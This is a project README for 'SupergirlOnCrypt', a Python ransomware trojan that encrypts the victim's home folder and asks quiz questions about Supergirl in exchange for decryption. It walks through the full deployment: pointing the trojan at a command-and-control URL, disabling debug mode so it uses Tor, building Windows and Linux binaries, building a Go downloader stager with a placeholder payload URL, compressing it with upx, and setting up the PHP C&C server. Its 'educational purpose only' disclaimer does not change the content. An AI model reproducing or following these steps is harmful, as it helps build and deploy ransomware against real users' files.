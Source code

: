 # SupergirlOnCrypt :heart: :punch: :boom:

![Project Logo](https://thoughtful-dev.com/projects/supergirloncrypt/header.jpg)

**For EDUCATIONAL PURPOSE ONLY**

This is a Crypto Trojan written in Python which can be packed using Pyinstaller... 
and i :heart: Supergirl so there you go.

**To decrypt the Data the Victim has to answer some Questions about Supergirl! (No Payment required since it was just a fun Project)**

## Content
1. [Requirements](#requirements)
2. [Setup](#setup)
3. [Building](#building)
---
![Image while Building](https://thoughtful-dev.com/projects/supergirloncrypt/term.png)
---
## Requirements

Both Windows AND Linux must have Python >= 3.5 installed to build the Executable/Binary.

Optionally you need the Golang compiler if you want to use the Go Stager because the Binary with Pyinstaller is quite large (~60mb - Linux , 30mb - Windows)
(Go Stager is only ~700kb).

---
## Setup

We will generate the API´s public and private key in this process.
So if you first generate a binary for Linux as shown here then you have to copy the whole repository folder to the windows box and only choose to recreate the `venv`.
## The Trojan

1. Change the API_URL in App/Config.py to your C&C Server URL
2. Disable DEBUG_MODE (Leave it on if your API is running locally because otherwise Tor cant reach your local network)
3. Optionally change your File Types
4. Build Executables/Binary for Windows and/or Linux
5. Setup API

## Overview of DEBUG True vs False
Debug On | Debug Off
------------ | -------------
Creates a logfile | No logfile
Does not user Tor | Uses Tor to communicate
Encrypts Folder `./test_files` | Encrypts Users HomeFolder

**If you are Testing leave the DEBUG MODE ON OR USE A VM**


## Building

### Linux
```
$ cd Scripts
$ ./supergirl.sh setup python3
$ ./supergirl.sh build
```
**Now copy the whole folder to the Windows VM/Machine where you want to build the Windows Executable. When running the `supergirl.ps1` ONLY recreate the `venv` and NOT the Keys since they are already generated from our Linux Setup.** *

*Optionally you can also clone the Repo to the Windows Machine and only replace `API/bin/private.key` and `App/res/server.public.key`

**This also applies vice versa**

### Windows
```
PS> cd Scripts
PS> .\supergirl.ps1 -mode setup -path C:\\...\\python.exe
PS> .\supergirl.ps1 -mode build
```

### Building Stager
1. Upload your Binary which you gathered from the previous step
2. Go to `./Stagers/Go` and open `main.go`
3. Change line 39 `var url string = "your-direct-download-url-here"`

#### Building a Linux Stager
4. `GOOS=linux go build -ldflags="-s -w" -o stager main.go`

#### Building a Windows Stager
5. `GOOS=windows GOARCH=386 go build -ldflags="-s -w" -o stager.exe main.go`

6. Optionally compress the Stager(.exe) binary with upx

7. LINUX: `upx --ultra-brute -o compressed_stager stager`
7. WINDOWS: `upx.exe --ultra-brute -o compressed_stager.exe stager.exe`

8. Wait...
9. ???
10. Profit.


## API

Since we communicate with our API we need to set it up. The API(located in ./API duhh) is written in PHP so any Linux /Win Server will do.
On your Ubuntu C&C Server run:
```
$ sudo add-apt-repository ppa:ondrej/php
$ sudo apt update
$ sudo apt install apache2 php7.1 libapache2-mod-php7.1 php7.1-mbstring php7.1-sqlite3 php7.1-xml
$ sudo apt install composer unzip
```
Now copy the API Folder to your Server in the www root

```
$ cd /var/html
$ composer install
```
We need to install python to decrypt our keys if a user wants to decrypt
```
$ sudo apt install python3 python3-dev python3-pip
$ pip3 install cryptography
```
Your API should now be ready on http://ip/public (should respond with 501)

**I wont show you how to setup a Tor hidden Service**



# Disclaimer

### FOR EDUCATIONAL PURPOSE ONLY I AM NOT RESPONSIBLE FOR ANYTHING
```
            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
                    Version 2, December 2004

 Copyright (C) 2017 ThoughtfulDev

 Everyone is permitted to copy and distribute verbatim or modified
 copies of this license document, and changing it is allowed as long
 as the name is changed.

            DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
   TERMS AND CONDITIONS FOR COPYING, DISTRIBUTION AND MODIFICATION

  0. You just DO WHAT THE FUCK YOU WANT TO.
```
---
I have no Idea if you understand this README. 
